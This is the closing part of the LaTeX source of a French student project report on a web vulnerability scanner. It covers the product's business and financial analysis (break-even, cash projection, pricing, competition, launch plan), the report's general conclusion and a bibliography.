\rowA Loyer (travail à domicile)              & 0 \\
Marketing digital (réseaux sociaux, SEO)      & 500 \\
\rowA Outils / logiciels (domaine, outils CI) & 300 \\
Autres charges (comptabilité, divers)         & 200 \\
\midrule
\rowcolor{gray!12}\textbf{Total charges fixes} & \textbf{3~000 MAD/mois} \\
\bottomrule
\end{tabular}
\end{table}

% ── 6. Résultat ───────────────────────────────────────────
\subsection*{\textcolor{owaspblue}{\ding{188}~~Résultat Mensuel}}

\begin{table}[h!]
\centering
\begin{tabular}{p{9cm}p{3cm}}
\toprule
\hdr{Calcul} & \hdr{Résultat} \\
\midrule
Charges totales = CV total + CF = 400 + 3~000 & 3~400 MAD \\
\rowA Résultat = CA $-$ Charges = 4~950 $-$ 3~400 & 1~550 MAD \\
\rowcolor{gray!12}\textbf{Rentabilité = (1~550 $\div$ 4~950) $\times$ 100}
  & \textbf{31,3~\%} \\
\bottomrule
\end{tabular}
\end{table}

% ── 7. Seuil de rentabilité ───────────────────────────────
\subsection*{\textcolor{owaspblue}{\ding{189}~~Seuil de Rentabilité}}

\begin{table}[h!]
\centering
\begin{tabular}{p{9cm}p{3cm}}
\toprule
\hdr{Calcul} & \hdr{Résultat} \\
\midrule
Marge unitaire = 91 MAD                                  & 91 MAD \\
\rowA Seuil (unités) = 3~000 $\div$ 91                   & \textbf{33 clients} \\
\rowcolor{gray!12}\textbf{Seuil (en CA) = 33 $\times$ 99}
  & \textbf{3~267 MAD/mois} \\
\bottomrule
\end{tabular}
\end{table}

\begin{infobox}[title={Interprétation du seuil de rentabilité}]
Avec \textbf{33 clients abonnés} (sur 50 visés), l'entreprise couvre ses charges fixes et
atteint l'équilibre. Au-delà, chaque client supplémentaire génère \textbf{91~MAD de profit net}.
\end{infobox}

% ── 8. BFR ────────────────────────────────────────────────
\subsection*{\textcolor{owaspblue}{\ding{190}~~Besoin en Fonds de Roulement (BFR)}}

\begin{table}[h!]
\centering
\begin{tabular}{p{8cm}p{4cm}}
\toprule
\hdr{Élément} & \hdr{Montant (MAD)} \\
\midrule
Stock initial (service numérique — pas de stock) & 0 \\
\rowA Créances clients (10 clients $\times$ 99)  & 990 \\
Dettes fournisseurs (hébergement)                & 150 \\
\midrule
\rowcolor{gray!12}\textbf{BFR = 0 + 990 $-$ 150}  & \textbf{840 MAD} \\
\bottomrule
\end{tabular}
\end{table}

% ── 9. Trésorerie ─────────────────────────────────────────
\subsection*{\textcolor{owaspblue}{\ding{191}~~Trésorerie Prévisionnelle (Mois 1)}}

\begin{table}[h!]
\centering
\begin{tabular}{p{8cm}p{4cm}}
\toprule
\hdr{Élément} & \hdr{Montant (MAD)} \\
\midrule
Trésorerie initiale (apport personnel)        & 5~000 \\
\rowA Entrées d'argent (CA encaissé)          & 4~950 \\
Sorties d'argent (charges totales)            & 3~400 \\
\midrule
\rowcolor{gray!12}\textbf{Trésorerie finale = 5~000 + 4~950 $-$ 3~400}
  & \textbf{6~550 MAD} \\
\bottomrule
\end{tabular}
\end{table}

% ── Graphique de projection ───────────────────────────────
\subsection*{\textcolor{owaspblue}{Projection de trésorerie sur 6 mois}}

\begin{center}
\begin{tikzpicture}
\begin{axis}[
  width=12cm, height=6cm,
  xlabel={Mois},
  ylabel={MAD},
  xtick={1,2,3,4,5,6},
  xticklabels={M1,M2,M3,M4,M5,M6},
  legend style={at={(0.02,0.98)}, anchor=north west, font=\small},
  ymajorgrids=true, grid style=dashed,
  ymin=0, ymax=22000,
  bar width=0.35cm,
  axis lines=left,
  tick label style={font=\small},
  label style={font=\small},
]
% CA mensuel (croissant)
\addplot[color=owaspblue, mark=*, thick] coordinates {
  (1,4950)(2,6435)(3,7920)(4,8910)(5,10395)(6,12375)};
\addlegendentry{CA mensuel}

% Charges totales (fixes)
\addplot[color=owaspred, mark=square*, thick, dashed] coordinates {
  (1,3400)(2,3500)(3,3600)(4,3700)(5,3800)(6,3900)};
\addlegendentry{Charges totales}

% Trésorerie cumulée
\addplot[color=green!60!black, mark=triangle*, thick] coordinates {
  (1,6550)(2,9485)(3,13805)(4,19015)(5,25610)(6,34085)};
\addlegendentry{Trésorerie cumulée}
\end{axis}
\end{tikzpicture}
\end{center}
\captionof{figure}{Projection financière sur 6 mois — CA, Charges et Trésorerie cumulée}

% ── 10. Analyse & Décision ────────────────────────────────
\subsection*{\textcolor{owaspblue}{\ding{192}~~Analyse \& Décision}}

\bigskip
\textbf{\large 1. Le projet est-il rentable ?}

\medskip
\fbox{\textbf{OUI}} — Le taux de rentabilité mensuelle est de \textbf{31,3~\%}. Avec un chiffre d'affaires de 4~950~MAD/mois et des charges totales de 3~400~MAD, le résultat net mensuel est de \textbf{1~550~MAD}. Le taux de marge unitaire atteint 91,9~\%, ce qui est caractéristique d'un service numérique sans stock physique.

\bigskip
\textbf{\large 2. Quel est le seuil de rentabilité ?}

\medskip
Le seuil de rentabilité est atteint avec \textbf{33 clients abonnés}, soit un CA de \textbf{3~267~MAD/mois}. Au-delà de ce seuil, chaque client supplémentaire génère 91~MAD de profit net. Ce seuil est réaliste car il ne représente que 66~\% de l'objectif de 50 clients.

\bigskip
\textbf{\large 3. Quel est le retour sur investissement ?}

\medskip
L'investissement initial est de \textbf{29~000~MAD}. Avec un résultat net mensuel de 1~550~MAD, le retour sur investissement est atteint en \textbf{19 mois} environ (29~000 $\div$ 1~550 $\approx$ 18,7 mois). Ce délai diminue avec la croissance du nombre de clients.

\bigskip
\textbf{\large 4. Comment se positionne le projet face à la concurrence ?}

\medskip
Notre scanner se différencie par :
\begin{itemize}
  \item \textbf{Open source} : contrairement à Burp Suite (payant) et Acunetix (licence coûteuse)
  \item \textbf{Scoring CVSS v3.1 intégré} : seul outil Python à générer un rapport avec évaluation CVSS automatique
  \item \textbf{Légèreté} : installation en une commande (pip install), pas d'interface lourde
  \item \textbf{Intégration CI/CD} : usage en pipeline automatisé, contrairement à OWASP ZAP qui nécessite une configuration manuelle
  \item \textbf{Prix accessible} : 99~MAD/mois vs. 4~000+ MAD/mois pour les solutions entreprise
\end{itemize}

\bigskip
\textbf{\large 5. Quels sont les risques identifiés ?}

\medskip
\begin{itemize}
  \item \textbf{Risque concurrentiel} : OWASP ZAP est gratuit et bien établi. Mitigation : positionnement sur la simplicité et le support francophone.
  \item \textbf{Risque de notoriété} : marque inconnue au lancement. Mitigation : stratégie open source (GitHub stars, communauté) + présence LinkedIn/Dev.to.
  \item \textbf{Risque technique} : nécessité de mise à jour régulière des signatures CVE. Mitigation : veille automatisée + communauté de contributeurs.
  \item \textbf{Risque marché} : marché marocain de la cybersécurité en développement. Mitigation : cibler également le marché francophone (Tunisie, Sénégal, France).
\end{itemize}

\bigskip
\textbf{\large 6. Quelle est la stratégie de lancement ?}

\medskip
\begin{enumerate}
  \item \textbf{Phase 1 (Mois 1--2)} : lancement open source sur GitHub et PyPI, documentation, tutoriels. Objectif : visibilité et premiers utilisateurs gratuits.
  \item \textbf{Phase 2 (Mois 3--4)} : lancement de l'offre SaaS Pro (99~MAD/mois) avec hébergement cloud, support email, et mises à jour prioritaires. Objectif : 20 clients payants.
  \item \textbf{Phase 3 (Mois 5--6)} : partenariats avec des écoles d'ingénieurs et PME marocaines. Formations payantes (200~MAD/personne). Objectif : 50 clients payants.
\end{enumerate}

\bigskip
\textbf{\large 7. Décision finale}

\medskip
\begin{table}[h!]
\centering
\begin{tabular}{p{5.5cm}p{6cm}}
\toprule
\hdr{Critère} & \hdr{Évaluation} \\
\midrule
Rentabilité mensuelle        & 31,3~\% --- Bonne \\
\rowA Seuil de rentabilité   & 33 clients --- Atteignable \\
Investissement initial       & 29~000 MAD --- Modéré \\
\rowA Trésorerie prévisionnelle & Positive dès M1 --- Solide \\
Risque marché                & Concurrence ZAP/Burp --- Moyen \\
\rowA Retour sur investissement & 19 mois --- Acceptable \\
\bottomrule
\end{tabular}
\end{table}

\bigskip
\textbf{Décision :} \quad
\fbox{\textbf{$\checkmark$ LANCER}} \quad
$\square$ Modifier \quad $\square$ Abandonner

\medskip
\textit{Recommandation : lancer en version freemium (open source gratuit + abonnement Pro à
99~MAD/mois), cibler les développeurs marocains via GitHub et les réseaux professionnels,
et viser 33 clients dès le 2\up{e} mois d'exploitation.}

% ────────────────────────────────────────────────────────────
\section{Conclusion}
% ────────────────────────────────────────────────────────────

Ce chapitre a analysé la viabilité entrepreneuriale de notre scanner de vulnérabilités web.
Le Business Model Canvas a mis en évidence les segments cibles, les canaux de distribution
et la proposition de valeur. L'analyse financière démontre la rentabilité de l'offre SaaS à
99~MAD/mois, avec un seuil de rentabilité atteint dès 33 clients et un résultat net de
31,3~\% du chiffre d'affaires. Le projet présente un fort potentiel commercial, notamment
auprès des PME marocaines et des équipes DevSecOps, grâce à la gratuité de la pile
technologique et à la pertinence croissante de la cybersécurité applicative.

% ============================================================
\chapter*{Conclusion Générale}
\addcontentsline{toc}{chapter}{Conclusion Générale}
% ============================================================

Ce Projet de Fin d'Année nous a permis de mener un travail complet en cybersécurité applicative.

\textbf{Bilan du Chapitre 1 (État de l'Art) :} Nous avons dressé un panorama complet des
cybermenaces web, analysé les dix catégories OWASP Top 10 2021, comparé quatre outils de référence
(ZAP, Burp Suite, Nikto, Acunetix) sur 14 critères, et expliqué le standard CVSS v3.1.

\textbf{Bilan du Chapitre 2 (Conception) :} Architecture en pipeline à cinq étapes, huit cas
d'utilisation, sept classes UML, douze modules de détection, topologie réseau à deux VMs
VirtualBox.

\textbf{Bilan du Chapitre 3 (Réalisation) :} 42 tests unitaires validés, huit études de cas
démontrant la détection effective des vulnérabilités : \textbf{70 vulnérabilités détectées en
6 secondes} sur 11 pages, couvrant \textbf{9 catégories sur 10} de l'OWASP Top 10.

\textbf{Perspectives d'évolution :}
\begin{itemize}
  \item Parallélisme des requêtes HTTP via \code{asyncio}/\code{aiohttp}
  \item Support des SPA JavaScript via Playwright (crawl dynamique)
  \item Intégration CI/CD native (GitHub Actions, GitLab CI)
  \item Interface web de visualisation en temps réel (WebSocket + React)
  \item Support des APIs REST et GraphQL (OpenAPI/Swagger)
\end{itemize}

% ============================================================
\chapter*{Bibliographie}
\addcontentsline{toc}{chapter}{Bibliographie}
% ============================================================

\begin{enumerate}[label={[\arabic*]}]
  \item OWASP Foundation, \textit{OWASP Top 10 — 2021},
    \url{https://owasp.org/Top10/}, 2021.
  \item Verizon, \textit{2023 Data Breach Investigations Report},
    \url{https://www.verizon.com/business/resources/reports/dbir/}, 2023.
  \item IBM Security, \textit{Cost of a Data Breach Report 2023},
    \url{https://www.ibm.com/reports/data-breach}, 2023.
  \item FIRST, \textit{CVSS v3.1 Specification Document},
    \url{https://www.first.org/cvss/v3.1/specification-document}, 2019.
  \item OWASP Foundation, \textit{OWASP ZAP — Zed Attack Proxy},
    \url{https://www.zaproxy.org/}, 2023.
  \item PortSwigger, \textit{Burp Suite Web Vulnerability Scanner},
    \url{https://portswigger.net/burp}, 2023.
  \item Nikto Project, \textit{Nikto Web Server Scanner},
    \url{https://cirt.net/Nikto2}, 2023.
  \item Invicti Security, \textit{Acunetix Web Vulnerability Scanner},
    \url{https://www.acunetix.com/}, 2023.
  \item K. Reitz, \textit{Requests: HTTP for Humans},
    \url{https://docs.python-requests.org/}, 2023.
  \item L. Richardson, \textit{Beautiful Soup Documentation},
    \url{https://www.crummy.com/software/BeautifulSoup/}, 2023.
  \item digininja, \textit{DVWA — Damn Vulnerable Web Application},
    \url{https://github.com/digininja/DVWA}, 2023.
  \item OWASP Foundation, \textit{WebGoat — A Deliberately Insecure Application},
    \url{https://owasp.org/www-project-webgoat/}, 2023.
  \item NIST, \textit{National Vulnerability Database (NVD)},
    \url{https://nvd.nist.gov/}, 2023.
  \item CrowdStrike, \textit{2023 Global Threat Report},
    \url{https://www.crowdstrike.com/resources/reports/global-threat-report/}, 2023.
  \item W3C, \textit{Content Security Policy Level 3},
    \url{https://www.w3.org/TR/CSP3/}, 2023.
\end{enumerate}

\end{document}
